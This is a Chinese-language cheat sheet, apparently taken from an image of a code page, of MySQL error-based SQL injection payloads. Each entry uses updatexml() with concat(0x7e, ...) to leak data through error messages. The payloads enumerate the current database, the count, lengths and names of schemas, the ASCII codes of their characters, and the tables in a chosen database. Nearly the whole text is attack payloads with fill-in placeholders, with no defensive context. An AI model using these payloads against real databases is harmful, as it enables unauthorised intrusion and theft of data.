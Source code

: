 ------

### 报错注入

#### 获取当前数据库名

```mysql
updatexml(null,concat(0x7e,(select database()),0x7e),null)
```

#### 获取数据库数量

```mysql
updatexml(1,concat(0x7e,(SELECT(COUNT(schema_name))FROM(information_schema.schemata)),0x7e),1)
```

#### 获取数据库名长度

```mysql
updatexml(1,concat(0x7e,(SELECT(LENGTH(schema_name))FROM(information_schema.schemata) limit 第x个数据库,1),0x7e),1)
```

#### 获取数据库名

```mysql
updatexml(1,concat(0x7e,(SELECT(CONCAT(schema_name))FROM(information_schema.schemata) limit 第x个数据库,1),0x7e),1)
```

#### 获取数据库名ASCII码

```mysql
updatexml(1,concat(0x7e,(SELECT(ASCII(SUBSTR(schema_name,第x位,1)))FROM(information_schema.schemata) limit 第x个数据库,1),0x7e),1)
```

#### 获取数据库中表的数量

```mysql
updatexml(1,concat(0x7e,(SELECT(COUNT(table_name))FROM(information_schema.tables)WHERE(table_schema='数据库名')),0x7e),1)
```

#### 获取表名长度

```mysql
updatexml(1,concat(0x7e,(SELECT(LENGTH(table_name))FROM(information_schema.tables)WHERE(table_schema='数据库名') limit 第x个表,1),0x7e),1)
```

#### 获取表名

```mysql
updatexml(1,concat(0x7e,(SELECT(CONCAT(table_name))FROM(information_schema.tables)WHERE(table_schema='数据库名') limit 第x个表,1),0x7e),1)
```
